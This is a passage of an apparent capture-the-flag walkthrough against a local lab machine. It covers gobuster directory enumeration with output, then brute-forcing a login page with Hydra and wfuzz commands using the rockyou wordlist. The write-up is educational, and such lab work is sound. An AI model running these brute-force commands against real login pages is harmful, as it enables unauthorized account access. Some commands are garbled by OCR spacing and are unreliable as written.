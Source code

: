 ![Imgur](https://i.imgur.com/WRMZG9u.png)

## GOBUSTER
```bash
$ gobuster dir --url http://192.168.56.115 --wordlist /usr/share/wordlists/dirb/common.txt
================================================== =============
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
================================================== =============
[+] Url: http://192.168.56.115
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster / 3.0.1
[+] Timeout: 10s
================================================== =============
2020/06/07 02:19:24 Starting gobuster
================================================== =============
/ css (Status: 301)
/ images (Status: 301)
/index.php (Status: 200)
================================================== =============
2020/06/07 02:19:24 Finished
================================================== =============
```

With Wappalyzer we can find out that nginx version is 1.15. However, there are no exploits for this version.

I checked the possibility of getting an admin a lot. Nothing remains but to brute-force the admin password. We will not use python requests for this, because multithreading plays an important role here

## Brute-force page login panel

Brute-forcing the login panel on the site can be confusing and complicated. We need to know:
- variables to which login data are assigned (usually it is 'login' and 'password'),
- domain directory where the login script is located,
- a message that is displayed when we are unable to log in or vice versa.
- Whether it's the type of POST or GET request
- Are there any mandatory cookies the host must have when cracking the hash
- and lots of other stuff

One of the tools to check this information is the 'HTTP Header Live' browser plug-in

![Imgur](https://i.imgur.com/8ZnEqGA.png)
### Hydra - WEBPAGE

```
hydra -l test -P dict.txt 192.168.56.115 http-post-form "/login.php:login=^USER^&password=^PASS ^: <String_message_displayed_after_of_successful_trial>` ```

Sorry, but we have no message after a failed login attempt. The page does not display any message. After reviewing the manpage, I don't see the HTTP status filtering option. We need to find an alternative.

### wfuzz

wfuzz is a much more intelligent tool. This, however, makes it much more complicated than Hydra. I made the script

```bash
wfuzz -c -v -w /usr/share/wordlists/rockyou.txt -d "username = admin & password = FUZZ" -u http://192.168.56.115/login.php/
```